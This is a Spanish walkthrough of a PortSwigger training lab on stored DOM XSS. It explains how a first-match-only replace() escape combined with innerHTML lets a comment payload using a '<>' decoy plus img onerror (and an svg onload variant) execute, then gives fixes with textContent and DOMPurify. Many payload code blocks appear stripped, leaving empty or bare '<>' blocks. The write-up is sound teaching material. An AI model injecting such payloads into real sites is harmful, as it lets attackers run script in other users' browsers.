

# PortSwigger Web Security Academy — Lab 45: Stored DOM XSS

**Categoría:** Cross-site scripting (XSS)  
**Lab:** Stored DOM XSS  
**URL del lab:** `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored`  
**Objetivo:** explotar una vulnerabilidad de **DOM XSS almacenado** en la funcionalidad de comentarios para ejecutar `alert()`.

---

## 1. Enunciado del laboratorio

El laboratorio demuestra una vulnerabilidad de **DOM XSS almacenado** en la funcionalidad de comentarios del blog.

Para resolverlo hay que explotar la vulnerabilidad de forma que se ejecute la función:

```js
alert()
```

La parte importante del enunciado no es solo “XSS”, sino la combinación de dos palabras:

```text
Stored + DOM
```

Eso significa que el payload queda **guardado** en la aplicación, pero la transformación insegura que lo convierte en ejecución JavaScript ocurre en el **navegador**, mediante JavaScript del lado cliente.

---

## 2. Imagen inicial del laboratorio

Al iniciar el laboratorio se abre una página tipo blog de PortSwigger Academy. En este caso se ve la página principal del blog, con el título del lab en la parte superior y el estado `Not solved`.


La página tiene posts de blog. Como el lab indica que la vulnerabilidad está en la funcionalidad de comentarios, el punto de entrada no es el buscador ni la URL, sino un formulario de comentarios dentro de un post.

---

## 3. Qué tipo de XSS es este lab

Este laboratorio no es un XSS reflejado clásico ni un stored XSS puramente del lado servidor. Es un caso mixto que conviene separar bien.

### 3.1. XSS reflejado

En un XSS reflejado típico, el payload viaja en una petición y vuelve reflejado inmediatamente en la respuesta.

Ejemplo conceptual:

```text
/search?q=<script>alert(1)</script>
```

El servidor responde con HTML que contiene ese valor. Si lo inserta mal, se ejecuta.

Características:

- No queda guardado.
- Normalmente depende de que la víctima abra una URL manipulada.
- El payload vuelve en la misma respuesta.

### 3.2. Stored XSS

En un XSS almacenado, el payload se guarda en el servidor.

Ejemplo conceptual:

```text
Comentario: <script>alert(1)</script>
```

El servidor lo guarda en base de datos. Más tarde, cuando otro usuario visita el post, el comentario se renderiza y se ejecuta.

Características:

- El payload queda persistente.
- No hace falta enviar un enlace especial a cada víctima.
- Cada usuario que vea el contenido puede ejecutar el payload.

### 3.3. DOM XSS

En un DOM XSS, el problema principal está en JavaScript ejecutado en el navegador.

Ejemplo conceptual:

```js
var input = location.search;
document.body.innerHTML = input;
```

El servidor puede devolver una página aparentemente limpia, pero el navegador lee una fuente controlable y la mete en un sink peligroso.

Características:

- La ejecución nace en el cliente.
- Suelen aparecer sources como `location.search`, `location.hash`, JSON de APIs, comentarios cargados dinámicamente, etc.
- Suelen aparecer sinks como `innerHTML`, `document.write`, `eval`, `setAttribute`, jQuery `$()`, etc.

### 3.4. Stored DOM XSS

Este lab combina las dos ideas:

```text
Stored → el comentario se guarda en el servidor.
DOM → el JavaScript del navegador procesa ese comentario de forma insegura.
```

El flujo real es:

```text
1. El atacante publica un comentario malicioso.
2. El servidor guarda ese comentario.
3. Otro usuario abre el post.
4. La página carga JavaScript que pide los comentarios.
5. El servidor devuelve los comentarios guardados, normalmente como JSON.
6. El JavaScript del navegador intenta escapar el comentario.
7. El escape es defectuoso.
8. El JavaScript inserta el resultado con innerHTML.
9. El navegador interpreta HTML real.
10. Se dispara el XSS.
```

Esta es la razón por la que el lab se llama **Stored DOM XSS** y no simplemente **Stored XSS**.

---

## 4. Idea central del laboratorio

El error principal del lab es un intento de sanitización casera usando `replace()` de forma incorrecta.

El desarrollador intenta escapar los caracteres `<` y `>` para impedir que el usuario inserte etiquetas HTML.

La función vulnerable es conceptualmente así:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

A primera vista parece razonable:

- `<` se convierte en `&lt;`
- `>` se convierte en `&gt;`

Pero hay un fallo crítico: cuando `replace()` recibe un string normal, solo reemplaza la **primera aparición**.

Esto es la clave completa del lab.

---

## 5. Diferencia entre `replace('<', ...)` y `replace(/</g, ...)`

### 5.1. `replace()` con string

Si haces esto:

```js
texto.replace('<', '&lt;')
```

solo se reemplaza el primer `<`.

Ejemplo:

```js
'<>'.replace('<', '&lt;')
```

Resultado:

```html
&lt;>
```

Solo se ha escapado el primer `<`. El `` sigue intacto.

### 5.2. Segundo `replace()` para `>`

Después la función hace:

```js
.replace('>', '&gt;')
```

Esto también reemplaza solo el primer `>`.

Partimos de:

```html
&lt;>
```

Tras reemplazar el primer `>`:

```html
&lt;&gt;
```

Resultado final:

```html
&lt;&gt;
```

La primera pareja `<>` quedó convertida en texto seguro:

```html
&lt;&gt;
```

Pero la segunda etiqueta sigue viva:

```html

```

### 5.3. Forma global correcta

Para reemplazar todas las apariciones habría que usar una expresión regular global:

```js
html.replace(/</g, '&lt;').replace(/>/g, '&gt;')
```

El modificador `g` significa **global**, es decir, reemplazar todas las coincidencias, no solo la primera.

Pero incluso esto no sería la mejor solución en un caso real. La solución más robusta es no usar `innerHTML` con contenido no confiable. En vez de eso se debería usar `textContent`.

---

## 6. Por qué el payload necesita un “cebo”

Si enviamos directamente:

```html

```

la función defectuosa escapa justo el primer `<` y el primer `>` de esa etiqueta.

Proceso:

```html

```

Primer replace:

```html
&lt;img src=1 onerror=alert(1)>
```

Segundo replace:

```html
&lt;img src=1 onerror=alert(1)&gt;
```

Resultado insertado en el DOM:

```html
<p>&lt;img src=1 onerror=alert(1)&gt;</p>
```

El navegador muestra esto como texto literal:

```html

```

Pero no crea una imagen real. Por eso no se ejecuta `onerror`.

La idea es darle al filtro algo que consumir primero. Para eso usamos:

```html
<>
```

Ese `<>` actúa como cebo.

Payload final:

```html
<>
```

Ahora el primer `<` y el primer `>` que el filtro escapa pertenecen al cebo, no a la etiqueta maliciosa.

Proceso exacto:

```html
<>
```

Primer replace:

```html
&lt;>
```

Segundo replace:

```html
&lt;&gt;
```

El resultado contiene dos partes:

```html
&lt;&gt;
```

Eso se mostrará como texto `<>`.

Y luego:

```html

```

Eso sí es HTML real.

---

## 7. Por qué se ejecuta ``

El payload funcional usa una etiqueta `img`:

```html

```

Esta etiqueta intenta cargar una imagen desde la ruta `1`.

Como `1` no es una imagen válida, la carga falla. Cuando falla la carga de una imagen, el navegador dispara el evento `error`.

El atributo:

```html
onerror=alert(1)
```

le dice al navegador:

```text
Cuando esta imagen falle al cargar, ejecuta alert(1)
```

Por eso funciona sin interacción del usuario. No hace falta click, hover ni teclado. La imagen se crea, intenta cargar, falla y dispara el evento automáticamente.

---

## 8. Qué es `innerHTML` y por qué es peligroso

`innerHTML` es una propiedad de JavaScript que permite leer o reemplazar el HTML interno de un elemento.

Ejemplo:

```html
<div id="caja"></div>
```

```js
document.getElementById('caja').innerHTML = '<b>Hola</b>';
```

El navegador no muestra literalmente `<b>Hola</b>`. Lo interpreta como HTML y crea un nodo `<b>` real:

```html
<div id="caja">
  <b>Hola</b>
</div>
```

Esto es útil para generar contenido dinámico, pero es peligroso si lo que se mete viene de usuarios.

Ejemplo vulnerable:

```js
commentBodyPElement.innerHTML = userComment;
```

Si `userComment` vale:

```html

```

el navegador crea un `` real con un evento real.

La versión segura sería:

```js
commentBodyPElement.textContent = userComment;
```

Con `textContent`, el navegador muestra el contenido como texto literal. No lo interpreta como HTML.

Comparación:

```js
div.innerHTML = '';
```

Resultado: crea una imagen real y puede ejecutar `onerror`.

```js
div.textContent = '';
```

Resultado: muestra literalmente el texto ``.

La frase clave es:

```text
innerHTML no muestra texto: reconstruye HTML dentro del DOM.
```

---

## 9. Reconocimiento práctico del laboratorio

Entramos al laboratorio y abrimos un post. Después vamos al formulario de comentarios.

Primero dejamos un comentario normal para observar cómo se renderiza.

Ejemplo:

```text
Comment: pepe1
Name: pepe
Email: pepe@gmail.com
Website: http://pepe.com
```

Al enviarlo e inspeccionar el DOM vemos algo parecido a:

```html
<section class="comment">
  <p>
    <a id="author" href="http://pepe.com"></a>
    pepe | 06-05-2026
    
  </p>
  <p>pepe1</p>
  <p></p>
</section>
```

Este comentario normal no explota nada.

### 9.1. Por qué este fragmento no es vulnerable todavía

La parte:

```html
<a id="author" href="http://pepe.com"></a>
```

solo contiene una URL normal. No hay:

- `javascript:`
- `onclick`
- cierre de atributo
- HTML malicioso

Por tanto, ese enlace simplemente apunta a `http://pepe.com`.

La parte:

```html
<p>pepe1</p>
```

es texto normal dentro de un párrafo.

No hay ejecución.

Esto es importante porque en este lab no basta con mirar el HTML final de un comentario inocuo. Hay que entender cómo la web construye los comentarios desde JavaScript.

---

## 10. Primera prueba fallida: ``

Probamos el payload más típico:

```html

```

El comentario se guarda, pero no aparece ningún popup.

Al inspeccionar el DOM vemos algo como:

```html
<section class="comment">
  <p>
    <a id="author" href="http://pepe.com"></a>
    pepe | 06-05-2026
    
  </p>
  <p>&lt;img src=1 onerror=alert(1)&gt;</p>
  <p></p>
</section>
```

Esto significa que el navegador no está viendo una etiqueta real. Está viendo texto escapado:

```html
&lt;img src=1 onerror=alert(1)&gt;
```

Visualmente se muestra como:

```html

```

Pero internamente no se creó ningún nodo `` malicioso.

Por eso no hay alerta.

La prueba demuestra que la aplicación sí intenta escapar el primer `<` y el primer `>`.

---

## 11. Segunda prueba: payload con cebo

Ahora usamos el payload correcto:

```html
<>
```

La primera pareja `<>` se usa como cebo para consumir el reemplazo defectuoso.

Cuando el comentario se carga, aparece el popup:



Y el laboratorio queda resuelto:


---

## 12. DOM final tras el payload correcto

Tras explotar el lab, el DOM contiene algo como:

```html
<span id="user-comments">
  <script src="/resources/js/loadCommentsWithVulnerableEscapeHtml.js"></script>
  <script>loadComments('/post/comment')</script>

  ...

  <section class="comment">
    <p>
      <a id="author" href="http://pepe.com"></a>
      pepe | 06-05-2026
      
    </p>
    <p>&lt;&gt;</p>
    <p></p>
  </section>
</span>
```

La parte importante es esta:

```html
<p>&lt;&gt;</p>
```

Aquí hay dos cosas diferentes:

```html
&lt;&gt;
```

Esto es texto seguro. El navegador lo muestra como:

```text
<>
```

Pero después aparece:

```html

```

Esto es una etiqueta real. El navegador intenta cargar `src="1"`, falla, dispara `onerror` y ejecuta `alert(1)`.

---

## 13. El JavaScript vulnerable

En el DOM se ve que la página carga este archivo:

```html
<script src="/resources/js/loadCommentsWithVulnerableEscapeHtml.js"></script>
<script>loadComments('/post/comment')</script>
```

Eso nos dice que los comentarios no están simplemente escritos como HTML estático desde el servidor. Se cargan mediante JavaScript.

El flujo probable del archivo es:

```js
function loadComments(postCommentPath) {
    let xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            let comments = JSON.parse(this.responseText);
            displayComments(comments);
        }
    };
    xhr.open("GET", postCommentPath + window.location.search);
    xhr.send();
}
```

Después, al construir cada comentario, se aplica una función de escape defectuosa:

```js
function escapeHTML(html) {
    return html.replace('<', '&lt;').replace('>', '&gt;');
}
```

Y finalmente se inserta el comentario con `innerHTML`:

```js
commentBodyPElement.innerHTML = escapeHTML(comment.body);
```

La vulnerabilidad exacta no es solo una línea. Es la combinación de estas dos decisiones:

```text
1. Escapar mal usando replace() sin global.
2. Insertar el resultado usando innerHTML.
```

Si el resultado se insertara con `textContent`, incluso un escape defectuoso tendría menos impacto porque no se interpretaría como HTML.

---

## 14. Flujo técnico completo de explotación

Este es el flujo completo desde que enviamos el comentario hasta que se ejecuta el `alert`.

### Paso 1: enviamos el comentario

Comentario enviado:

```html
<>
```

### Paso 2: el servidor lo almacena

La aplicación guarda el comentario en su almacenamiento interno, probablemente en una base de datos.

Conceptualmente:

```text
body = "<>"
```

### Paso 3: otro usuario abre el post

Cuando se carga el post, el HTML inicial contiene:

```html
<span id="user-comments">
  <script src="/resources/js/loadCommentsWithVulnerableEscapeHtml.js"></script>
  <script>loadComments('/post/comment')</script>
</span>
```

### Paso 4: JavaScript pide los comentarios

El navegador ejecuta:

```js
loadComments('/post/comment')
```

Y se hace una petición al endpoint de comentarios.

### Paso 5: el servidor devuelve JSON

Respuesta conceptual:

```json
[
  {
    "author": "pepe",
    "website": "http://pepe.com",
    "body": "<>"
  }
]
```

### Paso 6: el navegador parsea el JSON

```js
let comments = JSON.parse(this.responseText);
```

Ahora en JavaScript:

```js
comment.body === '<>'
```

### Paso 7: se llama a `escapeHTML()`

```js
escapeHTML(comment.body)
```

Input:

```html
<>
```

Primer replace:

```html
&lt;>
```

Segundo replace:

```html
&lt;&gt;
```

### Paso 8: se inserta con `innerHTML`

```js
commentBodyPElement.innerHTML = '&lt;&gt;';
```

El navegador interpreta HTML.

### Paso 9: se crea un nodo `img` real

DOM resultante:

```html
<p>
  &lt;&gt;
  
</p>
```

### Paso 10: falla la imagen y se ejecuta `alert(1)`

`src="1"` no carga correctamente. El navegador dispara:

```js
onerror=alert(1)
```

Resultado: popup y lab resuelto.

---

## 15. Por qué esto no es XSS “solo del servidor”

En un stored XSS clásico, el servidor podría devolver directamente:

```html
<p></p>
```

Aquí el caso es más sutil.

El comentario se guarda, sí, pero el HTML malicioso aparece porque el JavaScript del navegador:

1. recupera comentarios,
2. aplica un escape defectuoso,
3. inserta el resultado con `innerHTML`.

Por eso el fallo se categoriza como **Stored DOM XSS**.

La persistencia viene del servidor, pero el sink vulnerable está en el DOM.

---

## 16. Por qué el payload se ejecuta automáticamente

El payload no necesita click.

La etiqueta:

```html

```

se ejecuta por el ciclo natural del navegador:

```text
1. Se crea el nodo img.
2. El navegador intenta cargar la imagen.
3. La ruta src=1 falla.
4. Se dispara el evento error.
5. El atributo onerror ejecuta alert(1).
```

Es un vector clásico porque se dispara al renderizar el DOM.

---

## 17. Comparación con otros payloads

### 17.1. Payload que no funciona

```html

```

No funciona porque el filtro consume justo su primer `<` y su primer `>`.

DOM final:

```html
<p>&lt;img src=1 onerror=alert(1)&gt;</p>
```

Resultado: texto literal.

### 17.2. Payload que sí funciona

```html
<>
```

Funciona porque el primer `<` y el primer `>` pertenecen al cebo.

DOM final:

```html
<p>&lt;&gt;</p>
```

Resultado: imagen real + evento `onerror`.

### 17.3. Variante equivalente

También se podría usar otra etiqueta/evento que sobreviva al filtro defectuoso, por ejemplo:

```html
<><svg onload=alert(1)>
```

Si el contexto y el navegador lo permiten, el primer `<>` se escaparía y el `<svg>` quedaría vivo.

Pero el payload del lab es el más directo:

```html
<>
```

---

## 18. Diferencia entre escapar, sanitizar y validar

Este lab es perfecto para entender que no todo “escape” es una defensa real.

### 18.1. Escapar

Escapar consiste en transformar caracteres peligrosos para que no tengan significado especial.

Ejemplo:

```html
< → &lt;
> → &gt;
```

Pero debe hacerse correctamente y para el contexto adecuado.

### 18.2. Sanitizar

Sanitizar consiste en limpiar HTML permitiendo solo ciertas etiquetas y atributos seguros.

Ejemplo:

```text
Permitir <b>, <i>, <p>
Bloquear <script>, onerror, onclick, javascript:
```

Para esto no se debería escribir un filtro casero. Se usan librerías robustas como DOMPurify.

### 18.3. Validar

Validar consiste en comprobar que el dato tiene el formato esperado.

Por ejemplo, si un campo solo debe aceptar texto plano, no tiene sentido permitir HTML.

En comentarios de blog, normalmente el cuerpo del comentario debería tratarse como texto, no como HTML ejecutable.

---

## 19. Cómo se debería corregir

### 19.1. Mejor corrección: usar `textContent`

La corrección más limpia para comentarios de texto es:

```js
commentBodyPElement.textContent = comment.body;
```

Así, aunque el usuario escriba:

```html
<>
```

se mostrará literalmente como texto.

No se crearán nodos HTML.

### 19.2. Si se necesita HTML enriquecido

Si la aplicación quiere permitir cierto HTML en comentarios, no debe usar un `replace()` casero.

Debe usar un sanitizador robusto, por ejemplo:

```js
commentBodyPElement.innerHTML = DOMPurify.sanitize(comment.body);
```

DOMPurify eliminaría atributos peligrosos como:

```html
onerror
onclick
onload
```

Y esquemas peligrosos como:

```text
javascript:
data:
```

### 19.3. Si aun así se quiere escapar manualmente

Como mínimo, habría que escapar todas las apariciones:

```js
function escapeHTML(html) {
    return html
        .replace(/&/g, '&amp;')
        .replace(/</g, '&lt;')
        .replace(/>/g, '&gt;')
        .replace(/"/g, '&quot;')
        .replace(/'/g, '&#39;');
}
```

Pero esta opción sigue siendo delicada. El orden importa. Por ejemplo, `&` debería escaparse antes que `<` y `>` para evitar dobles interpretaciones y bypasses con entidades.

La solución recomendada para texto plano sigue siendo `textContent`.

---

## 20. Por qué `replace()` casero es una mala defensa

Usar `replace()` para seguridad suele fallar por varias razones:

1. Se olvida el modificador global `g`.
2. Se escapan caracteres insuficientes.
3. Se escapa para el contexto equivocado.
4. Se ignoran entidades HTML.
5. Se ignoran atributos peligrosos.
6. Se ignoran namespaces como SVG/MathML.
7. Se ignoran diferencias de parsing entre navegadores.
8. Se inserta el resultado con un sink peligroso como `innerHTML`.

En este lab, basta un fallo muy pequeño:

```js
replace('<', '&lt;')
```

en vez de:

```js
replace(/</g, '&lt;')
```

para que el filtro completo sea bypassable.

---

## 21. Source, transformación y sink

Para analizar DOM XSS conviene identificar tres piezas:

```text
Source → de dónde viene el dato controlable
Transformación → qué hace la aplicación con ese dato
Sink → dónde acaba el dato
```

En este lab:

### Source

El comentario guardado en el servidor y recuperado por JavaScript:

```js
comment.body
```

### Transformación

La función defectuosa:

```js
escapeHTML(comment.body)
```

### Sink

La asignación peligrosa:

```js
commentBodyPElement.innerHTML = escapeHTML(comment.body);
```

El sink es especialmente importante. Si en lugar de `innerHTML` se usara `textContent`, el payload no se interpretaría como HTML.

---

## 22. Diferencia entre DOM renderizado y código fuente inicial

En este lab puede confundir mirar solo el código fuente inicial de la página.

El código fuente puede no contener directamente todos los comentarios. Puede contener solo:

```html
<script src="/resources/js/loadCommentsWithVulnerableEscapeHtml.js"></script>
<script>loadComments('/post/comment')</script>
```

Luego, en tiempo de ejecución, el navegador hace peticiones, recibe JSON y modifica el DOM.

Por eso hay que mirar el DOM vivo desde DevTools, no solo `Ctrl+U`.

Diferencia:

```text
Ver código fuente → HTML original recibido del servidor.
Inspeccionar DOM → HTML actual después de ejecutar JavaScript.
```

En DOM XSS, muchas veces el problema solo aparece en el DOM vivo.

---

## 23. Resumen práctico del ataque

1. Abrimos el laboratorio.
2. Entramos en un post.
3. Bajamos al formulario de comentarios.
4. Probamos un comentario normal para entender cómo se renderiza.
5. Probamos `` y vemos que queda escapado.
6. Deducimos que el filtro escapa el primer `<` y el primer `>`.
7. Usamos un cebo `<>` delante.
8. Enviamos:

```html
<>
```

9. El filtro convierte el cebo en texto seguro:

```html
&lt;&gt;
```

10. La etiqueta `` sobrevive.
11. `innerHTML` crea el nodo real.
12. `src=1` falla.
13. `onerror` ejecuta `alert(1)`.
14. El laboratorio se marca como resuelto.

---

## 24. Payload final

Payload en el campo comentario:

```html
<>
```

Campos auxiliares usados en la práctica:

```text
Name: pepe
Email: pepe@gmail.com
Website: http://pepe.com
```

El campo vulnerable es el cuerpo del comentario.

---

## 25. Qué enseña este laboratorio

Este lab deja varias lecciones importantes:

1. Stored XSS no siempre significa que el servidor devuelva HTML malicioso directamente.
2. Un payload puede estar guardado como dato y volverse peligroso solo cuando JavaScript lo procesa.
3. `innerHTML` es un sink clásico de XSS.
4. Los filtros caseros con `replace()` son frágiles.
5. `replace('<', ...)` solo reemplaza la primera coincidencia.
6. Un atacante puede usar caracteres de cebo para consumir filtros incompletos.
7. Para texto de usuario, `textContent` es mucho más seguro que `innerHTML`.
8. Hay que analizar el DOM vivo, no solo el código fuente inicial.

---

## 26. Conclusión

La vulnerabilidad se produce porque la aplicación intenta escapar HTML de forma defectuosa y luego inserta el resultado con `innerHTML`.

El payload directo:

```html

```

no funciona porque el primer `<` y el primer `>` son escapados.

El payload correcto:

```html
<>
```

funciona porque el `<>` inicial actúa como cebo. El filtro consume esa primera pareja de caracteres, pero deja intacta la etiqueta real ``. Al insertarse mediante `innerHTML`, el navegador crea un elemento real, falla la carga de la imagen y ejecuta `alert(1)` mediante `onerror`.

La idea clave es:

```text
Stored DOM XSS = dato guardado + procesamiento inseguro en el navegador + sink peligroso.
```

Y la defensa correcta es:

```text
No insertar input de usuario con innerHTML. Usar textContent o un sanitizador serio.
```
